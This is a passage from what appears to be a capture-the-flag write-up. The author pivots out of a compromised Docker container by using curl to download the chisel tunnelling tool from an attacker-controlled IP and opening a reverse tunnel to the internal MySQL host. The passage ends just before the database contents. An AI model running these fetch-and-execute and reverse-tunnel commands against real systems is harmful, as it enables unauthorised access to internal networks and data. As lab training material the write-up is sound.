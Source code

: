 
![Pasted image 20250317152549.png](../../IMAGES/Pasted%20image%2020250317152549.png)

And it was right, we are inside of a docker container, we can try using [chisel](https://github.com/jpillora/chisel), let's do the following:

```
./chisel server --reverse --port 51234
```


Now, we need to download the chisel binary on our target machine and do this, `wget` is not enabled in the machine so we need to do it by curl, we also need to see where is the db located at so let's do this first:

```
www-data@robots:/tmp$ getent hosts db
172.18.0.3      db
```

```
curl http://10.6.34.159:8000/chisel -o chisel
chmod +x chisel
./chisel client 10.6.34.159:51234 R:3306:172.18.0.3:3306
```

We now receive a connection in our local machine chisel:

![Pasted image 20250317154806.png](../../IMAGES/Pasted%20image%2020250317154806.png)


We can now access the db:

![Pasted image 20250317155125.png](../../IMAGES/Pasted%20image%2020250317155125.png)


We can find this inside the db:
